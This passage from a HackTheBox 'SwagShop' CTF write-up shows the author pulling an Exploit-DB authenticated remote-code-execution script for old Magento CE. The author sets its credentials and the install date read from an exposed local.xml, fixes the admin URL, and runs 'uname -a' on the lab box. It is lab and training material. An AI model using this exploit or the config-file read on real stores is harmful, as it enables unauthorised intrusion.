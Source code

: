     
    
    root@kali# searchsploit -m exploits/php/webapps/37811.py
      Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
          URL: https://www.exploit-db.com/exploits/37811
         Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
    File Type: Python script, ASCII text executable, with CRLF line terminators
    
    Copied to: /root/hackthebox/swagstore-10.10.10.140/37811.py
    

I’ll rename to `magento_rce.py`, and open it up and take a look. In the config
section, I’ll have to update 3 fields:

    
    
    # Config.
    username = 'ypwq'
    password = '123'
    php_function = 'system'  # Note: we can only pass 1 argument to the function
    install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
    

I got the date from the page as suggested:

    
    
    root@kali# curl -s 10.10.10.140/app/etc/local.xml | grep date
                <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>
    

When I run it, I get an error:

    
    
    root@kali# python magento_rce.py http://10.10.10.140 "uname -a"
    Traceback (most recent call last):
      File "magento_rce.py", line 56, in <module>
        br['login[password]'] = password
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 2780, in __setitem__
        control = self.find_control(name)
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 3101, in find_control
        return self._find_control(name, type, kind, id, label, predicate, nr)
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 3185, in _find_control
        raise ControlNotFoundError("no control matching "+description)
    mechanize._form.ControlNotFoundError: no control matching name 'login[password]'
    

`mechanize` is a scriptable browser, and it’s complaining that there’s not
login form with a password field. That’s because it’s trying to log into the
base of the site. I’ll run it again, this time with the admin login page:

    
    
    root@kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
    Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    

### RCE #2 - Magento Package
